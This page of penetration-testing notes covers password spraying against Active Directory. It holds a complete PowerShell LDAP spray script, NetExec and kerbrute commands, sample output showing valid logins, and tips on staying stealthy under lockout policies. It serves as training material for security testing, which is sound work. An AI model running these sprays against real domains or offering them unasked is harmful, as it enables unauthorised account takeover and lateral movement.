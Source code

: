 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Spraying

Before attempting any password attacks, check the domain's **account lockout policy** to avoid locking out accounts or triggering alerts. For instance, based on the below policy, we can safely try 4 login attempts per user every 30 minutes (192 attempts per user per day):

{% tabs %}
{% tab title="NetExec" %}
We can read the domain's password policy from Linux:

```bash
# List the domain's password policy
nxc smb <target-ip> -u <user> -p <pass> --pass-pol
```
{% endtab %}

{% tab title="Net" %}
Enumerate the domain's password policy from the target Windows host:

```powershell
# List the account policy
> net accounts
...
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
...
```
{% endtab %}
{% endtabs %}

## LDAP-Based

This method leverages LDAP binding via PowerShell’s `.NET` libraries. It attempts authentication by trying to create an LDAP object — if it succeeds, the credentials are valid. This method is **stealthy**, no interactive log in, and **respects lockout policy**, but is **slow** and **limited to one password per run**.

{% tabs %}
{% tab title="Manual" %}
On the below example, if the password is invalid it will throw an error, if it's it will return the DN:&#x20;

{% code overflow="wrap" %}
```powershell
# Get the domain and PDC
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domain.PdcRoleOwner.Name

# Construct the LDAP path
$ldap = "LDAP://$PDC/DC=" + $domain.Name.Replace('.', ',DC=')
# Attempt authentication
$entry = New-Object System.DirectoryServices.DirectoryEntry($ldap, "pete", "Nexus123!")

# Trigger authentication
$entry.distinguishedName  # Triggers authentication
```
{% endcode %}
{% endtab %}

{% tab title="Automated" %}
We can automate this with a script which loops through AD users and reports valid logins:

{% code title=".\LDAPSpray.ps1" overflow="wrap" %}
```powershell
param(
    [string]$Password = "Nexus123!",
    [string]$Domain = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
)

Write-Host "[*] Starting LDAP password spray for domain: $Domain"
$PDC = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner).Name
$LDAP = "LDAP://$PDC/DC=" + $Domain.Replace('.', ',DC=')

# Get all users from AD
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(objectCategory=person)"
$Searcher.PageSize = 1000
$Searcher.PropertiesToLoad.Add("sAMAccountName") > $null
$Users = $Searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }

foreach ($User in $Users) {
    if ([string]::IsNullOrWhiteSpace($User)) { continue }

    try {
        $Entry = New-Object System.DirectoryServices.DirectoryEntry($LDAP, $User, $Password)
        $null = $Entry.distinguishedName  # Force bind/authentication
        Write-Host "[+] VALID: $User : $Password"
    } catch {
        Write-Host "[-] INVALID: $User"
    }
}
```
{% endcode %}

We can then use it as follows:

```powershell
> .\LDAPSpray.ps1 -Password "Nexus123!"
```
{% endtab %}
{% endtabs %}

## SMB-Based

This method involves a full SMB session setup/teardown on each authentication attempt so it's **slow**, **noisy**, and **does not respect the lockout policy**.

> _With `netxec`, if a sprayed password is valid_ _and the user is a `local administrator` on the target system, the `(Pwn3d!)` string will appear. This means that tools like `psexec`, `wmiexec`, or `secretsdump` can be used for lateral movement or privilege escalation._

## Kerberos-Based

This method uses Kerberos `AS-REQ`s to test credentials. It's **lightweight** (no full session required) and **fast** (only two UDP packets per attempt: `AS-REQ`, `AS REP`/`error`).&#x20;

This attack can be performed with tools like [`kerbrute`](https://github.com/ropnop/kerbrute), a cross-platform tool which performs password spraying by automating `AS-REQ` requests and interpreting the responses:

{% hint style="warning" %}
Ensure the files is encoded in **ANSI**, not UTF-8 with BOM. If you see strange network errors from `kerbrute`, try re-saving the file in Notepad with **Encoding: ANSI** via "Save As".
{% endhint %}

```powershell
> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
...
2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

## Method Comparison

| Protocol | Noise | Lockout-Safe | Speed     | Notes                              |
| -------- | ----- | ------------ | --------- | ---------------------------------- |
| LDAP     | Low   | ✅ Yes        | Medium    | Scriptable, stealthy               |
| SMB      | High  | ❌ No         | Slow      | Reveals admin access (`Pwn3d!`)    |
| Kerberos | Low   | ❌ No         | Very Fast | UDP-based, great for fast spraying |
